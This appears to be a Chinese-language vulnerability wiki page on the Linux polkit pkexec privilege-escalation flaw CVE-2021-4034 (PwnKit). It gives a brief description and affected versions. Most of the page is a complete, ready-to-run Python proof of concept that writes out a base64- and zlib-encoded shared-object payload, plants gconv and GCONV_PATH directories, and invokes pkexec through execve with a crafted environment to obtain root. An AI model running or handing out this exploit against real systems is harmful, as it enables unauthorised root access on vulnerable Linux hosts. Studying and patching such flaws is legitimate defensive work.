

Linux Polkit 权限提升漏洞 CVE-2021-4034¶
漏洞描述¶
Qualys 研究团队在 polkit 的 pkexec 中发现了一个内存损坏漏洞，该 SUID 根程序默认安装在每个主要的 Linux 发行版上。这个易于利用的漏洞允许任何非特权用户通过在其默认配置中利用此漏洞来获得易受攻击主机上的完全 root 权限。
漏洞影响¶
Polkit > 2009
漏洞复现¶

漏洞POC¶
#!/usr/bin/env python3
# poc for https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt found by qualys
# hardcoded amd64 lib
from ctypes import *
from ctypes.util import find_library
import os
import zlib
import base64
import tempfile
payload = zlib.decompress(
base64.b64decode(
"""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"""
)
)
libc = CDLL(find_library("c"))
libc.execve.argtypes = c_char_p, POINTER(c_char_p), POINTER(c_char_p)
libc.execve.restype = c_ssize_t
wd = tempfile.mkdtemp()
open(wd + "/pwn.so", "wb").write(payload)
os.mkdir(wd + "/gconv/")
open(wd + "/gconv/gconv-modules", "w").write(
"module UTF-8// INTERNAL ../pwn 2"
)
os.mkdir(wd + "/GCONV_PATH=.")
os.mknod(wd + "/GCONV_PATH=./gconv")
os.chmod(wd + "/GCONV_PATH=.", 0o777)
os.chmod(wd + "/GCONV_PATH=./gconv", 0o777)
os.chmod(wd + "/pwn.so", 0o777)
os.chdir(wd)
cmd = b"/usr/bin/pkexec"
argv = []
envp = [
b"gconv",
b"PATH=GCONV_PATH=.",
b"LC_MESSAGES=en_US.UTF-8",
b"XAUTHORITY=../gconv",
b"",
]
cargv = (c_char_p * (len(argv) + 1))(*argv, None)
cenv = (c_char_p * (len(envp) + 1))(*envp, None)
libc.execve(cmd, cargv, cenv)